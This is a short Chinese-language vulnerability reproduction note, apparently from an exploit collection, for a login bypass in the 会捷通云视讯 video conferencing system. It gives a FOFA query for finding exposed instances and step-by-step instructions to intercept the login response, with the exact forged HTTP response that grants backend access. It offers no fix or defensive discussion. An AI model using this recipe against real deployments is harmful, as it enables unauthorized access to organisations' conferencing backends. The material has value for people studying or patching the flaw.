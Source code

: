 # 会捷通云视讯-登录绕过漏洞

## 漏洞描述

会捷通云视讯存在登陆绕过漏洞，通过拦截特定的请求包并修改即可获取后台权限

## 漏洞影响

> [!NOTE]
>
> 会捷通云视讯

## FOFA

> [!NOTE]
>
> body="/him/api/rest/v1.0/node/role"

## 漏洞复现

登陆页面如下

![](会捷通云视讯-登录绕过漏洞.assets/1627363146586611.jpg)

输入任意账号密码抓包

![](会捷通云视讯-登录绕过漏洞.assets/1627363146882155.jpg)

修改返回包为如下后放包则成功绕过登录

```
HTTP/1.1 200 
Server: Hsengine/1.4.1
Date: Mon, 17 May 2021 16:13:43 GMT
Content-Type: application/json;charset=UTF-8
Connection: close
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Accept-Ranges: bytes
Vary: Accept-Charset, Accept-Encoding, Accept-Language, Accept
Content-Length: 61

{"token":null,"result":null}
```

![](会捷通云视讯-登录绕过漏洞.assets/16273631472349162.jpg)